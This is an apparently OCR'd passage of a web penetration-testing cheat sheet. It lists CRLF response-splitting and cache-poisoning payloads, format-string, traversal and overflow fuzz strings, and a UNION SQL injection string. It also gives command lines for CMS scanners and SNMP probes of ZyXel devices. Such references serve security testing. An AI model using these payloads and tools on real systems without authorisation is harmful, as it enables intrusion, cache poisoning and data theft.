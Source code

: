                             language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>
                                i.e. Content-Length= 0 HTTP/1.1 200 OK Content-Type=text/html Content-Length=47<html>blah</html>
                        Cache Poisoning

                            language=?foobar%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20304%20Not%20Modified%0d%0aContent-Type:%20text/html%0d%0aLast-Modified:%20Mon,%2027%20Oct%202003%2014:50:18%20GMT%0d%0aContent-Length:%2047%0d%0a%0d%0a<html>Insert undesireable content here</html>
                %7f , %ff
                    byte-length overflows; maximum 7- and 8-bit values.
                -1, other
                    Integer and underflow vulnerabilities.
                %n , %x , %s
                    Testing for format string vulnerabilities.
                ../
                    Directory Traversal Vulnerabilities.
                % , _, *
                    Wildcard characters can sometimes present DoS issues or information disclosure.
                Ax1024+
                    Overflow vulnerabilities.
            Automated table and column iteration
                orderby.py
                    ./orderby.py www.site.com/index.php?id=
                d3sqlfuzz.py
                    ./d3sqlfuzz.py www.site.com/index.php?id=-1+UNION+ALL+SELECT+1,COLUMN,3+FROM+TABLE--
        Vulnerability Scanners
            Acunetix
            Grendelscan
            NStealth
            Obiwan III
            w3af
        Specific Applications/ Server Tools
            Domino
                dominoaudit
                    dominoaudit.pl [options] -h <IP>
            Joomla
                cms_few
                    ./cms.py <site-name>
                joomsq
                    ./joomsq.py <IP>
                joomlascan

                    ./joomlascan.py <site> <options>  [options i.e. -p/-proxy <host:port> : Add proxy support -404 : Don't show 404 responses]
                joomscan
                    ./joomscan.py -u "www.site.com/joomladir/" -o site.txt -p 127.0.0.1:80
                jscan
                    jscan.pl -f hostname
                    (shell.txt required)
            aspaudit.pl
                asp-audit.pl http://target/app/filename.aspx (options i.e. -bf)
            Vbulletin
                vbscan.py
                    vbscan.py <host> <port> -v
                    vbscan.py -update
            ZyXel
                zyxel-bf.sh
                snmpwalk
                    snmpwalk -v2c -c public IP_Address 1.3.6.1.4.1.890.1.2.1.2
                snmpget
                    snmpget -v2c -c public IP_Address 1.3.6.1.4.1.890.1.2.1.2.6.0
    Proxy Testing
        Burpsuite
        Crowbar